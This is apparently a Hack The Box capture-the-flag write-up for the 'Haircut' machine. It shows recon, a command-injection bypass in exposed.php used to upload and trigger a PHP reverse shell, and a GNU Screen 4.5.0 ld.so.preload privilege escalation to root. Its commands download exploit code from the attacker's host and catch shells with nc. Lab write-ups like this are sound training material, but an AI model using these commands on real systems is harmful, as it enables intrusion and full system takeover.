





# Haircut

## Machine Info


## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path
  - `/uploads`
  - `/exposed.php`

```console
$ gobuster dir -u http://haircut.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://haircut.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 144]
/uploads              (Status: 301) [Size: 194] [--> http://haircut.htb/uploads/]
/test.html            (Status: 200) [Size: 223]
/hair.html            (Status: 200) [Size: 141]
/exposed.php          (Status: 200) [Size: 446]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```

## Foothold

### Command Injection

- `exposed.php` -> **curl** function



- **blacklist** exists





- **bypass**: `$(command)` -> `http://<ip>/$(command)`



- **bypass**: `curl http://<url>/rshell.php -o uploads/a.php` -> visit and execute uploaded file path: `[http://haircut.htb/uploads/a.php](http://haircut.htb/uploads/a.html)`

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.24] 59116
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 20:10:33 up  3:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ uname -a
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:0d:4a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.24/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:d4a/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

- enum SUID files

```console
www-data@haircut:/$ find / -perm -u=s -type f 2>/dev/null
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

- **screen-4.5.0**, GTFOBins -> 4.5.0 version -> able to write data



- [GNU Screen 4.5.0 - Local Privilege Escalation - Linux local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/41154) -> unable to compile two c files in box
  - local compiling
  - fix remote machine's compiler issue

- **local compiling** -> ubuntu 2016

```console
www-data@haircut:/tmp$ /tmp/rootshell
/tmp/rootshell: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/rootshell)
www-data@haircut:/tmp$ ls -l /lib/x86_64-linux-gnu/libc.so.6
ls -l /lib/x86_64-linux-gnu/libc.so.6
lrwxrwxrwx 1 root root 12 Mar 21  2017 /lib/x86_64-linux-gnu/libc.so.6 -> libc-2.23.so
```

- **fix compiler's problem** -> add cc1's dir into PATH environment variable

```console
www-data@haircut:/tmp$ wget http://10.10.14.54:8888/libhax.c
wget http://10.10.14.54:8888/libhax.c
--2024-01-09 21:39:30--  http://10.10.14.54:8888/libhax.c
Connecting to 10.10.14.54:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 252 [text/x-csrc]
Saving to: 'libhax.c'

libhax.c            100%[===================>]     252  --.-KB/s    in 0s

2024-01-09 21:39:30 (54.5 MB/s) - 'libhax.c' saved [252/252]

www-data@haircut:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

**EXP:**

- compile two c files (one shared library file and one binary file)

```console
www-data@haircut:/tmp$ find / -name cc1 2>/dev/null
find / -name cc1 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/5/cc1
www-data@haircut:/tmp$ echo $PATH
echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
www-data@haircut:/tmp$ export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5
export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5
www-data@haircut:/tmp$ echo $PATH
echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.:/usr/lib/gcc/x86_64-linux-gnu/5
www-data@haircut:/tmp$ which cc1
which cc1
/usr/lib/gcc/x86_64-linux-gnu/5/cc1
www-data@haircut:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod' [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
```

```console
www-data@haircut:/tmp$ wget http://10.10.14.54:8888/rootshell.c
wget http://10.10.14.54:8888/rootshell.c
--2024-01-09 21:42:48--  http://10.10.14.54:8888/rootshell.c
Connecting to 10.10.14.54:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 185 [text/x-csrc]
Saving to: 'rootshell.c'

rootshell.c         100%[===================>]     185  --.-KB/s    in 0s

2024-01-09 21:42:48 (34.7 MB/s) - 'rootshell.c' saved [185/185]

www-data@haircut:/tmp$ gcc rootshell.c -o rootshell
gcc rootshell.c -o rootshell
rootshell.c: In function 'main':
rootshell.c:4:5: warning: implicit declaration of function 'setuid' [-Wimplicit-function-declaration]
     setuid(0);
     ^
rootshell.c:5:5: warning: implicit declaration of function 'setgid' [-Wimplicit-function-declaration]
     setgid(0);
     ^
rootshell.c:6:5: warning: implicit declaration of function 'seteuid' [-Wimplicit-function-declaration]
     seteuid(0);
     ^
rootshell.c:7:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^
rootshell.c:8:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
```

- add a new line into /etc/ld.so.preload for rootshell usage

```console
www-data@haircut:/tmp$ cd /etc
cd /etc
www-data@haircut:/etc$ umask 000
umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
<en -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/etc$ screen -ls
screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@haircut:/etc$ /tmp/rootshell
/tmp/rootshell
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

## Exploit Chain

port recon -> web path recon -> command injection -> user shell -> SUID discover -> screen 4.5.0 -> exp -> root shell
